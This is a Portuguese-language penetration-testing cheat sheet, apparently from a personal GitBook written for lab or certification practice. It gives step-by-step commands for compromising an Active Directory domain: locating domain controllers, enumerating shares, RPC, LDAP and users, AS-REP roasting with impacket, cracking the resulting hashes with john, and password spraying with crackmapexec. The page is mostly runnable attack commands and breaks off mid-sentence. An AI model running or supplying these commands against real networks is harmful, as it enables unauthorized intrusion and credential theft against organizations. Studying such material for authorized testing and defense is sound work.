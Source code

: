 ```yaml
---
description: >-
  Nesse primeiro momento o objetivo é comoprometer uma máquina do domínio com as
  técnicas e comandos empregadas nesta página.
---
```


# Active Directory

## 1 - Enumerar IP dos DCs, portas/serviços e nome de domínio

### 1 - Obtém IP address do DC (domain controller)

Como primeiro objetivo temos que levar em conta a enumeração de portas/serviços por meio do nmap e enumerar nome do domínio, assim como o IP dos domains controllers:

### linux

```
nslookup -type=srv _ldap._tcp.dc._msdcs.redecorp.br
nslookup -type=srv _kerberos._tcp.EXMAPLE.COM
nslookup -type=srv _kpasswd._tcp.EXAMPLE.COM
nslookup -type=srv _ldap._tcp.EXAMPLE.COM
nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM
```

#### windows

```
nslookup
set type=all
_ldap._tcp.dc._msdcs.redecorp.br
```

Outra opção seria:

<pre><code><strong>nltest /dclist:oscp.exam
</strong>
nltest /dclist:domainname
</code></pre>

Vale considerar que este útlimo comando só funciona se a máquina já está no domínio.

### 2 - Obtém Dominio

```python
enum4linux -a <hostname>
#uma outra opção seria:
enum4linux -a -A <hostname>
```

**atenção com este comando, porque o domínio que me retornou não foi o mesmo identificado no comando anterior.**

```python
crackmapexec smb <hostname>
```

### 3 - Obtém serviços

basic nmap TCP [nmap\_enum](https://app.gitbook.com/o/2Zy5rWlDaAhU300B2fZ9/s/G7hJBZ74BeKBgUnukZ44/scripts/nmap\_enum)

```
sudo nmap_enum <hostname> | tee nmap_output.txt
```

basic nmap UDP

```
sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn <hostname> | tee nmap_udp_output.txt
```

All ports nmap

```
sudo nmap -p- -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt
```

```
sudo nmap -p- --max-retries 1 -Pn -T5 -n <hostname> | tee nmap_fullportstcp_output.txt
```

Vulns scan nmap

```
sudo nmap -sS --script vuln -n -T5 -Pn <hostname> -p <ports> | tee nmap_vulns.txt
```

Esta última porta pode ser vista com mais detalhes em:

[..](../ "mention")

Como exemplo mais comum encontrados nos cenários, segue as enumerações mais convenientes para os ambientes de ADs (mas nãoo se resume somente a isso, é necessário cosultar melhor as demais informações no link acima)...

### Enumerate shares null session

```python
smbclient -U '' -N -L <hostname>
```

```
crackmapexec smb <hostname> -u '' -p '' --shares
```

```
sudo nmap -p 445,139 -Pn -T5 <hostname> --script smb-enum-shares
```

**GUEST ACCESS**

```
smbclient -U 'guest%' -N -L <hostanme>
```

```
crackmapexec smb <hostname> -u '' -p '' --shares
```

### RPC null session

```
rpcclient -N -U '' <hostname>
```

```python
srvinfo
querydominfo
enumdomusers
enumdomgroups
querygroup 0x200
netshareenum
netshareenumall
```

### Enumerate LDAP

```
ldapsearch -x -H ldap://10.10.10.179 -s base
```

### Enumerar domínio

```
bloodhound-python -d <domain_name> -v --zip -c All -dc test.local -ns 10.10.10.1
```

## 2 - Enumeração de usuário de domínio

Aqui vale considerar que, por meio da enumeração devemos considerar os possíveis arquivos existentes que conseguimos obter e fazer possíveis nomes de usuários com esses conteúdos,. No demais, seguem comandos que podem nos auxiliar quanto a esta tarefa:

### Via Kerberos

```
kerbrute userenum -d <domain> --dc <hostname> users_temp.txt
```

```
kerbrute userenum --domain <domain> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc <hostname>
```

```
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='test.local',userdb=usernames.txt <hostname>
```

### Via RPC

```
rpcclient -U <domain>/<username> <hostname>
```

```
rpcclient -U "DOMAIN\\" <hostnames> -N
```

```
enumdomusers
enumdomgroups
```

### Enum4linux

```
enum4linux -u <username> -p <password> -U 10.10.10.179
```

### Via SMB

```
crackmapexec smb <hostname> --users
```

### Ldapsearch

```
ldapsearch -x -H ldap://<hostname> -D '' -w '' -b "DC=<domain_name>,DC=<tld>"
```

### Via Web

Não existe um comando específico para obter noomes de usuários específicos, por motivos óbvios, porém, podemos gerar possíveis nomes de usuários com o cewl, com o seguinte comando:

```
cewl http://<hostname>/ > users_temp.txt
```

## 3 - Obter hashes de senha/senha ou exploits de serviços expostos e brute force

Este ponto é bem interessante, porque aqui temos várias possibilidades disponíveis e algumas delas deixarei documentado em uma outra página que depois deixarei o link. Mas para fins de AD, podemos considerar os principais que seriam:

### AS-REP Roasting

```
impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users_temp.txt -format john -outputfile hashes_temp.txt
```

Se der sucesso:

```
john --format=krb5asrep -w /usr/share/wordlists/rockyou.txt hashes_temp.txt
```

### Exploração de serviço

Neste caso, devemos considerar outra página para conseguir algum tipo de exploração. De modo geral, são:

Web - SQLi

CVEs

Chaves expostas por meio de aplicações web

Exposição de senhas via GPP - Group.xml

### Password Spray

Aqui podemos aplicar algumas técnicas sendo elas user = password, mais os usuários que já temos no dicionário:

```
cat users.txt > passwords.txt
```

```
crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
crackmapexec smb hosts.txt -u users.txt -p passwords_test.txt --continue
    
crackmapexec winrm hosts.txt -u users.txt -p passwords_test.txt --continue
```

###

Depois disso precisamos enumerar o domínio. Aqui temos duas possibilidades, sendo elas com&#x20;

####

